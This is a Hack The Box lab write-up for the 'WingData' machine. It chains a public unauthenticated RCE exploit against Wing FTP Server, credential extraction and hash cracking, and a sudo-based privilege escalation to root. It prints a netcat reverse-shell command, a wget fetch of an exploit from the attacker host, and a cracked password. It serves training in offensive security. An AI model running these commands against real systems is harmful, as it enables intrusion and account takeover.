# WingData HTB Writeup

Author: Trushit Oza

## Target Information

- Machine: WingData
- Platform: Hack The Box
- Primary Hostname: wingdata.htb
- Target IP: 10.129.244.106
- Objective: Gain initial access, enumerate local data, and capture user and root flag

## 1. Reconnaissance

### Update local host resolution

```bash
echo "10.129.244.106 wingdata.htb ftp.wingdata.htb" | sudo tee -a /etc/hosts
```

### Port and service scan

```bash
nmap -sS -sV 10.129.244.106
```

### Relevant findings

```text
22/tcp open  ssh   OpenSSH 9.2p1 Debian 2+deb12u7
80/tcp open  http  Apache httpd 2.4.66
```

- Web title: WingData Solutions
- Web server: Apache/2.4.66 (Debian)



## 2. Web Enumeration

### Initial web behavior

- Visiting http://10.129.244.106 redirects to http://wingdata.htb.
- The Client Portal path redirects to ftp.wingdata.htb.

### Service fingerprinting

- On ftp.wingdata.htb, the application version is exposed as Wing FTP Server v7.4.3.




## 3. Vulnerability Identification

- Identified version: Wing FTP Server v7.4.3
- Public vulnerability: CVE-2025-47812
- Impact: Unauthenticated Remote Code Execution (RCE)

I searched for a publicly available proof of concept and used the following repository:

```bash
git clone https://github.com/4m3rr0r/CVE-2025-47812-poc.git
cd CVE-2025-47812-poc
```



## 4. Exploitation

### Start listener

```bash
nc -lvnp 5555
```

### Execute exploit

```bash
python3 CVE-2025-47812.py -u http://ftp.wingdata.htb -c "nc 10.10.14.79 5555 -e /bin/sh" -v
```

### Confirm shell access

```bash
id
python3 -c "import pty; pty.spawn('/bin/bash')"
```





## 5. Post-Exploitation and Credential Discovery

### Locate user data

```bash
cd /opt/wftpserver/Data/1/users
ls
cat wacky.xml
```

The XML user file revealed credentials for local account wacky, including a stored hash:

```text
username: wacky
hash: 32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca
```



## 6. Password Cracking

Prepared hash input and cracked with hashcat:

```bash
echo "32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca:WingFTP" > password.txt
hashcat -m 1410 password.txt /usr/share/wordlists/rockyou.txt
```

Recovered password:

```text
!#7Blushing^*Bride5
```

<!--  -->

## 7. SSH Access and User Flag

### SSH login

```bash
ssh wacky@10.129.244.106
```

### Retrieve user flag

```bash
cat ~/user.txt
```



## 8. Privilege Escalation

### Check sudo permissions for current user

```bash
sudo -l
```

Output showed that user `wacky` can run a Python-based backup restore script as root without a password:

```text
Matching Defaults entries for wacky on wingdata:
	env_reset, mail_badpass,
	secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
	use_pty

User wacky may run the following commands on wingdata:
	(root) NOPASSWD: /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py *
```

This indicates the `wacky` user can execute the restore logic as root through:

```text
/opt/backup_clients/restore_backup_clients.py
```



### Review restore script behavior

```bash
cat /opt/backup_clients/restore_backup_clients.py
```

After identifying that the backup restore flow runs with root privileges, the next step was to use a public exploit for the vulnerable restore functionality.




### Use public PoC for CVE-2025-4517

From the attacker machine:

```bash
git clone https://github.com/AzureADTrent/CVE-2025-4517-POC-HTB-WingData.git
cd CVE-2025-4517-POC-HTB-WingData
ls
python3 -m http.server 80
```




From the target machine:

```bash
cd /tmp
wget http://10.10.17.208:80/CVE-2025-4517-POC.py
```

`/tmp` is writable and commonly used for temporary file staging.



## 9. Root Access and Root Flag

Execute the downloaded PoC on the target:

```bash
python3 CVE-2025-4517-POC.py
```

After successful execution, root shell access is obtained.

```bash
cd /root
cat root.txt
```




## Evidence Checklist

- [x] Recon and service discovery
- [x] Version disclosure and vulnerable service confirmation
- [x] Public PoC acquisition
- [x] Remote code execution
- [x] Local credential discovery
- [x] Password recovery
- [x] SSH access and user flag retrieval
- [x] Sudo misconfiguration identification
- [x] Privilege escalation to root
- [x] Root flag retrieval
